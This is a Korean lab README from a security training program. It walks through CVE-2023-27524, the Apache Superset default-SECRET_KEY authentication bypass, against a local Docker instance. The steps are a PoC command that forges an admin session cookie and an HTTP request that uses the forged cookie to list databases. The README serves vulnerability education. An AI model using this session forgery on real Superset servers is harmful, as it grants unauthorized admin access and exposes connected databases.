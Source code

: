 # CVE-2023-27524 - Apache Superset Authentication Bypass

> 화이트햇 스쿨 3기 (13반) - [박세민 (@8sheeta8)](https://github.com/8sheeta8) 


## 개요


Apache Superset은 데이터 탐색과 시각화를 위한 오픈소스 플랫폼입니다.
Superset은 기본 설정으로 하드코딩된 SECRET_KEY 값을 사용합니다.
관리자가 이 값을 변경하지 않으면, 공격자가 이를 이용해 세션 쿠키를 위조하고 관리자로 로그인할 수 있습니다.
이를 통해 Superset 대시보드, 연결된 데이터베이스에 무단 접근이 가능하며, 추가 취약점과 연계할 경우 원격 코드 실행(RCE)까지 이어질 수 있습니다.

취약 버전: Superset <= 2.0.1
취약점 유형: 인증 우회 (Authentication Bypass)

참고:
- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

  
## PoC GitHub


### 1. Docker를 이용한 취약 환경 구축

```
docker compose up -d
```

Superset 서버가 http://localhost:8088 에서 구동됩니다.


### 2. 의존성 설치

```
# PoC 코드에 필요한 패키지를 설치합니다.

pip install -r requirements.txt
```

### 3. Forged Session 쿠키 생성

```
# PoC 코드를 실행하여 관리자 계정(user_id=1) 세션을 위조합니다.

python CVE-2023-27524.py --url http://localhost:8088 --id 1 --validate
```

실행 결과
기본 SECRET_KEY 사용 (CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET) 확인

forged session 생성 완료
302 리다이렉션 발생 → 인증 우회 성공 판정

<img width="1280" alt="제목 없음" src="https://github.com/user-attachments/assets/136e9b98-eb68-4ccc-a959-a0b914f95bf7" />

### 4. 인증 우회하여 백엔드 접근

```
# BurpSuite를 통해 forged session으로 API 호출

GET /api/v1/database/ HTTP/1.1
Host: localhost:8088
Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aA4W5Q.ni44K6wlFydKq4jwQZ0k3JcC6T0
```

정상적으로 200 OK 응답 수신
데이터베이스 리스트 열람 가능

![스크린샷 2025-04-27 205322](https://github.com/user-attachments/assets/3253505d-8ded-49b9-91f0-c0b05751c396)

Pull Request 
https://github.com/gunh0/kr-vulhub/pull/297
Github 
https://github.com/8sheeta8/WHS3_kr-vulhub/edit/main/Superset/CVE-2023-27524/
